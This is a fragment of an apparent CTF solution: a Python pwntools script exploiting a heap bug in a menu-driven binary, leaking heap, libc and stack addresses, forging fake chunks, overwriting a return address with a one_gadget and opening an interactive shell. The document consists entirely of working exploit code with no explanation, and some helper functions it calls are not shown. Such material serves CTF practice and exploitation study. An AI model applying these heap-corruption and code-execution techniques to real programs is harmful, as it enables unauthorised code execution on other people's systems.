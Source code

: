 ```python

def delete(idx):
    p.recvuntil('(CMD)>>> ')
    p.sendline('d')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))

add(0x100)
add(0x100)
add(0x100)
add(0x100)
delete(3)
delete(1)
p.recvuntil('INDEX: 1')
p.recvuntil('CONTENT: ')
heapbase = u64(p.recvuntil('\n')[:-1].ljust(8,'\x00')) -0x220
p.recvuntil('INDEX: 3')
p.recvuntil('CONTENT: ')
libcbase = u64(p.recvuntil('\n')[:-1].ljust(8,'\x00')) -  (0x7fe1dd553b78-0x7fe1dd18f000)
environ = libc.sym['environ']+libcbase
pr('heapbase',heapbase)
pr('libcbase',libcbase)

add(0x100)
add(0x100)
delete(4)
delete(1)
delete(2)
delete(3)
#================================empty now =================================

add(0x100,'a'*0x100)
edit(1,'a'*0x30+p64(0)+p64(0x41)+p64(0x602070)*2+'\x00'*0x20+p64(0x40))
delete(1)


add(0x10) #1
add(0xf0) #2
add(0x10) #3
add(0x100,'a'*0x100) #4
delete(1)
add(0x18,'a'*0x10+p64(heapbase+0x20-0x602070)) #1
delete(2)

edit(4,'a'*0x30+p64(0)+p64(0x101)+p64(libcbase+(0x00007f36556adb78-0x00007f36552e9000))*2)
add(0xf0,'a'*0xc0+p64(0x100)+p64(environ)+p64(0x100)+p64(0x602148))
p.recvuntil('INDEX: 1')
p.recvuntil('CONTENT: ')
stackleak= u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))
target = stackleak + (0x7ffefd8d96e8-0x7ffefd8d97d8)
pr('target',target)
pr('stackleak',stackleak)
edit(2,p64(target))
edit(1,p64(libcbase+0x45226))
p.recvuntil('(CMD)>>> ')
p.sendline('Q')
#gdb.attach(p)
p.interactive()
```

